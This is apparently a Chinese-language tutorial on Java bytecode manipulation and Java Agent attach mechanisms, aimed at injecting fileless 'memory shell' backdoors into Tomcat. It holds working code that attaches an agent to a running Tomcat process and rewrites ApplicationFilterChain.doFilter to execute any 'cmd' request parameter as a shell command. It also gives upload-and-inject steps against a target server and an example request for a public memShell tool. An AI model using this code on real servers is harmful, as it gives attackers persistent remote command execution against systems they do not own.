

## **Class文件操作**
#### **ASM**
ASM是访问者设计模式通过将算法与对象结构分离，使得算法可以独立于对象结构进行变化。它适用于对象结构相对稳定，但需要在其上定义多种操作的场景。访问者模式的优点在于算法的扩展性和集中相关操作。

ASM实现实战AOP和调用修改class文件，调用后门代码。

^
#### **javassist**
javassist （这个是ASM的升级，使操作字节码更加容易，不过生成的文件大）
相较于ASM，可以发现，使用Javassist，在修改类的时候，我们不并需要知道具体底层的字节码怎么写，栈的容量多少，等等。我们只需要调用API就能完成对类的增删改查。
javassist是一个用于操作Java字节码的类库。它允许你在运行时定义新的类，或者修改现有的类。Javassist提供了一种简单的方式来处理Java字节码，使得开发者可以在不重新编译源代码的情况下，动态地改变程序的行为。


#### **BCEL**
BCEL是Apache Commons项目的一部分，提供了丰富的JVM指令集支持，允许开发者在JVM指令层次上进行字节码操作。它适合需要深入JVM汇编语言进行类操作的场景。


^
## **一般Agent**
#### **0x00 Java Agent介绍**    
JDK1.5以后引入了 `java.lang.instrument` 包，该包常用于日志记录、性能监控、安全监察、诊断等场景，Java Agent可以在不影响正常编译的情况下来修改字节码。
主要功能如下：可以在加载java文件之前做拦截把字节码做修改可以在运行期将已经加载的类的字节码做变更。


Java Agent本质上可以理解为一个插件，该插件就是一个精心提供的jar包。
启动方式和普通Jar包有所不同，对于普通的Jar包，通过指定类的main函数进行启动。
而使用Java Agent需要编写一个代理类和一个代理配置文件（META-INF/MANIFEST.MF），并将其打包为一个JAR文件。然后，在启动Java应用程序时，通过`-javaagent`参数指定代理JAR文件的路径，Java虚拟机（JVM）将会加载并运行代理。

Java Agent的jar包通过JVMTI（JVM Tool Interface）完成加载，
最终借助JPLISAgent（Java Programming Language Instrumentation Services Agent）完成对目标代码的修改。


Java Agent也是一个Java类，普通类的入口函数通常是 `main` 方法，而Java Agent的入口函数为 `premain` 或 `agentmain` 方法。
Java Agent支持两种加载方式：
1. `premain` 方法，在启动时加载
2. `agentmain` 方法，在启动后加载


#### **0x01 Agent静态加载**
Agent静态加载不是我们关注的重点，重点是动态加载。

静态Agent加载是一种将Agent注入到Java应用程序中的一种方式，它在应用程序启动之前加载Agent。这种加载方式通常需要在应用程序启动命令中指定一些特殊参数，以便 JVM 在启动时加载Agent。以下是一个使用静态Agent加载的示例命令行：
```
java -javaagent:/path/to/agent.jar -jar myapp.jar
```
-javaagent 参数后面跟着代理程序的JAR文件路径。-jar 参数后面是要运行的主应用程序的JAR文件。     
JVM在启动时会加载指定的Agent，并在应用程序运行期间执行Agent的代理操作。
Agent的作用分为下面几类：
字节码转换：Agent可以重定义或修改应用程序类的字节码，以实现功能增强或监控。
类加载监控：Agent可以监控应用程序中的类加载事件，记录类加载信息。
方法拦截：Agent可以在方法调用前后执行自定义代码，用于记录日志或执行其他操作。
性能分析：Agent可以用于分析应用程序的性能，收集性能数据以进行优化。

Jar包里代码：
```
public staticvoid premain(String agentArgs,Instrumentation inst){
    inst.addTransformer(new MyTransformer()); //定义的MyTransformer类，实现ClassFileTransformer类即可
}
premain是一个特殊的静态方法，被称为代理主方法（agentmainmethod）。
它由JVM调用，允许代理（agent）在目标应用程序启动之前执行初始化操作。

StringagentArgs：传递给代理的参数字符串。
Instrumentationinst：提供了一组APl来检查、修改甚至替换应用程序中的类。
这里的MyTransformer是一个实现ClassFileTransformer的类，在类中负责具体的类转换工作(替换类中方法)。
在MyTransformer中借助javassist库灵活修改字节码。
```
#### **0x02 Agent动态加载**
Jar包里代码：
```
public class AgentMainTest {
    public static void agentmain(String agentArgs, Instrumentation inst)
    {
        inst.addTransformer(new MyTransformer(),true); //允许被重新加载
        for (Class<?> clazz : inst.getAllLoadedClasses()){
            if (clazz.getName().equals("org.apache.catalina.core.ApplicationFilterChain")){ //找到目标class
                try {
                    inst.retransformClasses(clazz); //重新加载一遍，从而触发MyTransformer()中方法
                } catch (UnmodifiableClassException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
}
```

1、手动附加方式
jps -l 可以查看tomcat的启动主类的进程号
```
1002 org.apache.catalina.startup.Bootstrap
```
进程pid为1002，手动命令附加jar即可
jcmd 1002 JVMTI.agent_load agent.jar

2、代码附加方式
通过代码附加
```
VirtualMachine attach = VirtualMachine.attach("1002");
attach.loadAgent("/tmp/agent.jar");


//VirtualMachine在jdk8以下需要maven指明引入，jdk11以上不需要。
<dependency>
    <groupId>com.sun</groupId>
    <artifactId>tools</artifactId>
    <version>1.8</version>
    <scope>system</scope>
    <systemPath>${java.home}/../lib/tools.jar</systemPath>
</dependency>
```
自动化
```
public class test {
    public static void main(String[] args) throws Exception{
        String pid = getPID("org.apache.catalina.startup.Bootstrap");
        if (pid==null){
            throw new RuntimeException("未找到目标进程");
        }
        String jar = getJar(test.class);
        VirtualMachine vm = VirtualMachine.attach(pid);
        vm.loadAgent(jar);
    }
    // 执行jps -l，并获取类名对应的进程号
    public static String getPID(String className){
        try {
            Process process = Runtime.getRuntime().exec("jps -l");
            BufferedReader bufferedReader = new BufferedReader(
                    new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                if (line.contains(className)){
                    return line.split(" ")[0];
                }
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
        return null;
    }
    public static String getJar(Class<?> clazz){
        // 获取类所在的JAR包路径
        ProtectionDomain protectionDomain = clazz.getProtectionDomain();
        URL location = protectionDomain.getCodeSource().getLocation();
        // 提取JAR包名称
        String path = location.getPath();
        if (System.getProperty("os.name").toLowerCase().contains("win")&&path.startsWith("/"))
            path = path.substring(1);
        return path;
    }
}
```


^
## **Agent动态加载内存马**
1、MyTransformer里的内存马和agentmain动态加载一起打包成jar，上传目标服务器。
2、目标服务根据上传路径，执行代码附加方式的代码，注入成功。


<https://mp.weixin.qq.com/s/KaEIozJF6pnYQyvDfeDh3w>
jps -l 可以查看tomcat的启动主类的进程号
```
1002 org.apache.catalina.startup.Bootstrap
```
进程pid为1002 
VirtualMachine.list(); 获取jvm所有进程。
VirtualMachine.attach(pid); 匹配进程id。
遍历jvm进程，VirtualMachine动态载入进程，找到目标类和方法，修改代码流程




MyTransformer直接修改过滤器内存马代码：
```
public class MyTransformer implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        if (className.equals("org/apache/catalina/core/ApplicationFilterChain")){
            ClassPool pool = ClassPool.getDefault();
            pool.appendClassPath(new LoaderClassPath(loader));
            try {
                CtClass cc = pool.makeClass(new ByteArrayInputStream(classfileBuffer));
                CtMethod doFilter = cc.getDeclaredMethod("doFilter");
                doFilter.insertBefore("{ " +
                        "String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null) {\n" +
                        "   try {\n" +
                        "       Process proc = Runtime.getRuntime().exec(cmd);\n" +
                        "       java.io.InputStream in = proc.getInputStream();\n" +
                        "       java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        response.setContentType(\"text/html\");\n" +
                        "       String line;\n" +
                        "       java.io.PrintWriter out = response.getWriter();\n" +
                        "       while ((line = br.readLine()) != null) {\n" +
                        "           out.println(line);\n" +
                        "           out.flush();\n" +
                        "           out.close();\n" +
                        "       }\n" +
                        "   } catch (Exception e) {\n" +
                        "       throw new RuntimeException(e);\n" +
                        "   }\n" +
                        "}" +
                        " }");
                return cc.toBytecode();
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
        }
        // return ClassFileTransformer.super.transform(loader, className, classBeingRedefined, protectionDomain, classfileBuffer);
        return  new byte[0];
    }
}
```


^
^
## **Agent打Tomcat的内存马工具**
org.apache.catalina.core.ApplicationFilterChain
修改doFilter较好方法

文件落地法
冰蝎作者写的Agent马支持多种环境：<https://github.com/rebeyond/memShell>
自动寻找tomcat进程注入修改filter
```
上传inject.jar到目标机器，并执行命令
java -jar inject.jar 3312

命令执行
anyurl?pass_the_worLd=3312&model=exec&cmd=whoami
```


**其他工具**
vagent内存马工具


^
## **其他**
利用Java的lnstrument机制修改已经加载到内存中的类
javax.servlet.http.HttpServlet
类中service方法中添加恶意代码

^
对与NIO的webflux的接口，需要分情况考虑修改代码，同时冰蝎内存马支持。
webflux是非阻塞式 I/O ，webFlux 默认使用 Netty 作为服务器。
WebFlux 应用可以运行在传统的 Servlet 容器中，但仍然保持其非阻塞的特性。
